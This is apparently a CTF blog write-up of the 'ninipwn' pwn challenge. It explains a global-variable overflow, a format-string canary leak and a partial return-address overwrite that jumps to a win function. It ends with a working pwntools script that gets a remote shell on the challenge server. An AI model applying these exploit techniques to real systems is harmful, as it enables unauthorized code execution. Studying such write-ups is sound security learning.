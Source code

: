 ```yaml
---
layout: post
title: ninipwn
tags: [writeup, pwn]
---
```


## Description
> pwn ^ pwn ^ pwn ^ pwn ^ pwn ^ pwn
> <br>[Attachment](/assets/files/blog/ninipwn/ninipwn)
> ```
> nc 3.75.185.198 7000
> ```

## Writeup
To start this challenge, I first ran the `checksec` command on the provided binary file:

![decomp](/assets/images/blog/ninipwn/checksec.png)

All protections were enabled, so I'd have to find a way around at least one of them to solve the challenge. Next, I loaded the binary into Ghidra. The `main` function simply prints out "XOR encryption service", then calls the `encryption_service` function. After looking through the code to get a sense of what it was doing, I cleaned up the code by renaming some variables so that it looked like this:

### `encryption_service`
![encryption_service](/assets/images/blog/ninipwn/encryption_service_decomp.png)

### `encrypt`
![encrypt](/assets/images/blog/ninipwn/encrypt_decomp.png)

Beyond this, there were a few other details of interest. The flag was not contained anywhere in the binary, meaning it would require gaining a shell on the remote system to instead find the flag on the filesytem. To further support this idea, there was a `win` function containing code to spawn a shell when called. My goal was to find a way to jump to this `win` function.

Here's what the program does: first, it asks the user to input the `text_length`, which must be between 0 and 256. Next, it asks for the `key` and prints the key back out to the user. Then, it asks for up to `text_length` bytes of `text` to store in a buffer on the stack. Finally, the program then takes the key provided and "encrypts" the buffer via the `encrypt` function. This XORs the text with the key by repeating the key every 8 bytes.

There are two critical places where the vulnerabilities lie. First, `key` and `text_length` are global variables, meaning they are not stored on the stack but rather in the `.bss` section of the binary. When the program accepts input to be used as the `key`, it accepts 10 bytes, which is 2 bytes greater than the allocated space for `key`. Since the item next to `key` is `text_length`, this causes a 2-byte overflow into `text_length`, allowing us to control the two upper-most, or least-significant bytes of `text_length`. Since the program asks for `key` after it asks for `text_length`, we can use this to bypass the check for `text_length` and write values of up to `0xffff` (decimal 65535), meaning we can perform a buffer overflow.

However, by itself, this vulnerability is not enough to gain a shell. While it does allow us to use a buffer overflow to overwrite the value of the saved `%rip`, it doesn't provide us with a way to overcome the stack canary. This is where the second vulnerability comes in. In line 21 of `encryption_service`, `printf` is called with user-controlled input as its only argument. The correct way to write this statement would have been `printf("%s", (char *)&key)`- notice the omission of the `"%s"`. This allows us to perform what is known as a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Without the `"%s"`, C treats the value of `key` as the format string. In normal operation, this will still produce the intended output, but as an attacker, we can pass format specifiers like `"%p"` to leak data from the stack. So what exactly would passing `"%p"` print? It does exactly what it normally does, which is print the second argument to `printf` as a pointer, or in other words, `%rdi` (the x86 register for the second argument). By extension, we can add more `%p`s to leak other "arguments", and at the 6th `%p` start to leak from the top of the stack since x86 assembly stores arguments beyond the 6th on the stack. The C notation for this would be `"%6$p"`. However, we don't just want the top value of the stack- we want the stack canary. To calculate the offset of the stack canary from the top of the stack at execution of the `printf`, I set a breakpoint in GDB after the `printf` statement and ran `info frame` to find where the canary was stored in the current frame. Then, I calcuated the difference between `%rsp` and the location of the canary and divided it by 8 to get the number of "pointers" I needed to offset by. The result was 33, which meaning my format string would need to look like `"%39$p"` (33 + 6 to start at the top of the stack). Testing this in GDB confirmed that the program did indeed leak the correct value:

![canary](/assets/images/blog/ninipwn/canary.png)

Now that I had the information I needed, all that remained was to craft the actual exploit. Since the goal was to gain a shell using the provided `win` function, I needed to overwrite the value of the stored `%rip` with the address of the `win` function. However, with PIE turned on, that address would be randomized each time the program was ran, which would require another leak to know in it's entirity- except for the last 3 hex characters (1.5 bytes). Instead, to avoid having to know the full address, I decided to perform a partial overwrite, which would utilize the existing stored address. The `win` function and the address of `main` which `encryption_service` would normally return to, offset 0x00101433 and 0x001014f8 respectively, were close enough that they only differed by their last byte, even with PIE turned on. This meant I could perform an overwrite of only the least-significant/upper-most byte. Since the "overwrite" was actually an XOR function, this would require making the first byte of the key the value to XOR with `0xf8` to result in `0x33`, which is `0xcb`.

## Solve

```
from pwn import *
import time


binary = "./ninipwn"
elf = context.binary = ELF(binary, checksec=False)

# break *(encryption_service+0x165)
gs = """
break *(encryption_service+0x11a)
continue
"""

# `python3 solve.py REMOTE`
if args.REMOTE:
    p = remote("3.75.185.198", 7000)

# `python3 solve.py GDB`
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
    p = gdb.debug(binary, gdbscript=gs)

# `python3 solve.py`
else:
    p = elf.process()

# overwrite buffer + canary + saved rbp + least-significant byte of saved rip
overwrite = 264 + 8 + 8 + 1
key = (b'\xcb' + b'%39$p').ljust(8, b'\x00')

# can overflow KEY by 2 bytes to control this value up to 0xffff
p.sendlineafter(b'Text length: ', b'255')

p.sendafter(b'Key: ', key + overwrite.to_bytes(2, 'little'))

p.recvuntil(b'Key selected: \xcb')
canary = int(p.recvline(keepends=False), 16)
# print("RECEIVED CANARY:", hex(canary))

p.sendafter(b"Text: ", b'\x00'*(264) + p64(canary ^ u64(key)))
p.recvuntil(b'Encrypted output: ')
p.recv()

p.interactive()
```

![solve](/assets/images/blog/ninipwn/solve.png)
